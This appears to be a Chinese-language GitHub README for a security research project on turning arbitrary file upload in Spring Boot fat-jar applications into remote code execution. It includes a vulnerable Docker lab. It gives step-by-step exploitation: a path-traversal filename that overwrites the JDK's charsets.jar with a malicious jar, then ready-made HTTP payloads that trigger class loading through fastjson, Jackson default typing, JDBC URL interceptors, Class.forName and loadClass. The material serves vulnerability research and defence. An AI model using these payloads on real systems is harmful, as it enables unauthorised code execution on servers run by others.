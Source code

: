 ## spring-boot-upload-file-lead-to-rce-tricks


### 一. docker 漏洞环境搭建

```
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.2
docker run -d -p 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.2
```



完成后访问 http://127.0.0.1:18081/ ，界面大概如下所示：

![](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/images/docker.png)





### 二. 相关文章

[Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)





### 三. 常见 JDK 目录收集

欢迎提 issue 补充👏～

```
/usr/lib/jvm/java-8-oracle/jre/lib/
/usr/lib/jvm/java-1.8-openjdk/jre/lib/
/usr/lib/jvm/java-8-openjdk-amd64/jre/lib/
```





### 四. docker 漏洞环境的功能

- 文件上传功能 (默认上传到 /tmp/ 目录，可跳目录）
- 列目录功能     (列出 /tmp/ 目录下文件)





### 五. 漏洞利用条件

- 可以获得 jdk 安装的 home 目录位置
    - (可收集常见 jdk 默认安装目录位置，然后使用字典枚举尝试)

- jdk 自带文件 `/jre/lib/***.jar` 没被 `Opened` 过
    - (以 charsets.jar 文件举例：程序代码中不使用 `Charset.forName("GBK")` 类似的调用，默认就不会加载到 charsets.jar 文件)





### 六. 漏洞利用步骤

1. 选择上传文件 [charsets.jar](https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/raw/main/release/charsets.jar)

2. 使用上传文件功能，上传时用 burpsuite 截住数据包，filename 修改为 `../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

3. 上传成功后使用数据包触发漏洞

4. 漏洞触发成功会在 /tmp/ 目录产生 charsets_test_[random-string].log 样式名字的文件

5. 最后使用列目录功能查看漏洞利用是否成功





### 七. 漏洞利用场景：(5 个)

欢迎提 issue 补充👏～

#### 1. fastjson 最新版(目前是 1.2.76)默认配置场景

正常数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{"name":"test"}
```

触发漏洞数据包：

```
POST /fastjson HTTP/1.1
Content-Type: application/json

{
    "x":{
        "@type":"java.nio.charset.Charset",
        "val":"500"
    }
}
```



#### 2. jackson 开启 enableDefaultTyping 场景

正常数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["code.landgrey.bean.User",{"name":"zhangsan","age":20,"car":{"brand":"daben","price":1000000},"secret":"Pas@5w0rd"}]
```

触发漏洞数据包：

```
POST /jackson HTTP/1.1
Content-Type: application/json

["sun.nio.cs.ext.IBM33722",{"x":"y"}]
```



#### 3. jdbc url getConnection 场景

正常数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?user=root&password=123456
```

触发漏洞数据包：

```
GET /jdbc?url=jdbc:mysql://127.0.0.1:3306/test?statementInterceptors=sun.nio.cs.ext.IBM33722
```



#### 4. Class forName 场景

正常数据包：

```
GET /classForName?name=code.landgrey.bean.Car
```

触发漏洞数据包：

```
GET /classForName?name=sun.nio.cs.ext.IBM33722
```



#### 5. loadClass newInstance 场景

正常数据包：

```
GET /classLoader?name=code.landgrey.bean.User
```

触发漏洞数据包：

```
GET /classLoader?name=sun.nio.cs.ext.IBM33722
```

